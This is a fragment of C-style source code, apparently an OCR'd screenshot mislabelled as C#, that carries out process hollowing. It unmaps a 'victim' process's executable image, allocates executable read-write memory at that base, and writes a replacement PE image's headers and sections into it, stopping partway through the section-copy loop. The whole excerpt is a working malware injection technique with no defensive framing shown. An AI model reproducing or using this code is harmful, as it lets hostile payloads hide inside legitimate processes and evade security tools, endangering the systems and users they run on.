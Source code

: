 ```C#

	
	// Unmap executable image from victim process	
	DWORD dwResult = NtUnmapViewOfSection(
		pVictimProcessInfo->hProcess,
		pVictimImageBaseAddress);
	if (dwResult) {
		printf("[-] Error unmapping section in victim process\r\n");
		TerminateProcess(pVictimProcessInfo->hProcess, 1);
		return 1;
	}

	printf("[+] Hollowed out victim executable via NtUnmapViewOfSection\r\n");
	printf("\t[*] Utilized base address of 0x%08x\r\n", (UINT)pVictimImageBaseAddress);

	
	// Allocate memory for the replacement image in the remote process
	PIMAGE_DOS_HEADER pDOSHeader = (PIMAGE_DOS_HEADER)pReplacementImage;
	PIMAGE_NT_HEADERS pNTHeaders = (PIMAGE_NT_HEADERS)((LPBYTE)pReplacementImage + pDOSHeader->e_lfanew);
	DWORD replacementImageBaseAddress = pNTHeaders->OptionalHeader.ImageBase;
	DWORD sizeOfReplacementImage = pNTHeaders->OptionalHeader.SizeOfImage;

	printf("[+] Replacement image metadata extracted\r\n");
	printf("\t[*] replacementImageBaseAddress = 0x%08x\r\n", (UINT)replacementImageBaseAddress);
	printf("\t[*] Replacement process entry point = 0x%08x\r\n", (UINT)pNTHeaders->OptionalHeader.AddressOfEntryPoint);
	
	PVOID pVictimHollowedAllocation = VirtualAllocEx(
		pVictimProcessInfo->hProcess,
		(PVOID)pVictimImageBaseAddress,
		sizeOfReplacementImage,
		MEM_COMMIT | MEM_RESERVE,
		PAGE_EXECUTE_READWRITE);
	if (!pVictimHollowedAllocation) {
		printf("[-] Unable to allocate memory in victim process %i\r\n", GetLastError());
		TerminateProcess(pVictimProcessInfo->hProcess, 1);
		return 1;
	}
	printf("[+] Allocated memory in victim process\r\n");
	printf("\t[*] pVictimHollowedAllocation = 0x%08x\r\n", (UINT)pVictimHollowedAllocation);
	
	
	// Write replacement process headers into victim process
	WriteProcessMemory(
		pVictimProcessInfo->hProcess, 
		(PVOID)pVictimImageBaseAddress,
		pReplacementImage,
		pNTHeaders->OptionalHeader.SizeOfHeaders,
		0);
	printf("\t[*] Headers written into victim process\r\n");
	
	// Write replacement process sections into victim process
	for (int i = 0; i < pNTHeaders->FileHeader.NumberOfSections; i++) {
		PIMAGE_SECTION_HEADER pSectionHeader = 
			(PIMAGE_SECTION_HEADER)((LPBYTE)pReplacementImage + pDOSHeader->e_lfanew + sizeof(IMAGE_NT_HEADERS) 
				+ (i * sizeof(IMAGE_SECTION_HEADER)));
		WriteProcessMemory(pVictimProcessInfo->hProcess, 
			(PVOID)((LPBYTE)pVictimHollowedAllocation + pSectionHeader->VirtualAddress),
			(PVOID)((LPBYTE)pReplacementImage + pSectionHeader->PointerToRawData),
			pSectionHeader->SizeOfRawData, 
			0);
```